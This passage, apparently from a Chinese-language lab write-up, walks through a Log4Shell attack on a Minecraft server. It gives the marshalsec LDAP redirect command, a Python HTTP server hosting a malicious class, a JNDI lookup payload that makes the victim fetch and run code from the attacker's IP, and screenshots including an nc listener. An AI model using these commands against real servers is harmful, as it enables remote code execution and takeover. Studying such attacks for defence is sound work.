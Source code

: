    ```
   开启ldap服务所使用的工具为marshalsec-0.0.3-SNAPSHOT-all.jar（github上有，但是好像已经没了）
   具体命令为:
   java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer http://169.254.19.82:9092/#ExecTemplateJDK7(重定向的url) 1389(本机httpServer的监听端口)
   
   这一步的作用（以这个命令为例）：服务器请求本机1389端口后，ldap服务器将该请求重定向到http://169.254.19.82:9092/#ExecTemplateJDK7。
   ```

3. 攻击者将恶意类开放为http服务可请求资源（即重定向指向的资源）

   ```
   在编译好的恶意类所在的文件夹位置开启http服务，比较简易的（也是我们采用的）是用Python
   具体命令为：python -m http.server 9092（不指定端口的话，默认是8000），即可将位于命令开启位置的文件作为http资源向网络开放。
   ```

4. 攻击者登录客户端连接服务器，

   ```
   输入命令${jndi:ldap://169.254.19.82:1389/#ExecTemplateJDK7}
   即通过jndi这个接口，发起ldap请求。
   ```



**整体攻击逻辑：**

​		攻击者在mc客户端的聊天框中输入: `${jndi:ldap://169.254.19.82:1389/#ExecTemplateJDK7}` 后，被攻击机通过`jndi`发起`ldap`请求，即被攻击机`(169.254.3.108)`向攻击机`(169.254.19.82)`的设备的`1389`端口请求名字为`ExecTemplateJDK7`的资源），被攻击机的请求到达`ldap`服务器`(IP地址为169.254.19.82)`指定端口`(即1389端口)`后，`ldap`服务器将该请求重定向到放有恶意类`(ExecTemplateJDK7.class)`的端口`(即9092端口)`，服务器请求到恶意类并实例化，达到命令执行。





## 攻击过程

启动`ldap`服务器

![image-20211226001257878](%E5%88%A9%E7%94%A8Log4j%E6%8B%BF%E4%B8%8Bminecraft%E6%9C%8D%E5%8A%A1%E5%99%A8.assets/image-20211226001257878.png)

启动`http`服务器

![image-20211226001409246](%E5%88%A9%E7%94%A8Log4j%E6%8B%BF%E4%B8%8Bminecraft%E6%9C%8D%E5%8A%A1%E5%99%A8.assets/image-20211226001409246.png)

启动nc监听

![image-20211226001627829](%E5%88%A9%E7%94%A8Log4j%E6%8B%BF%E4%B8%8Bminecraft%E6%9C%8D%E5%8A%A1%E5%99%A8.assets/image-20211226001627829.png)
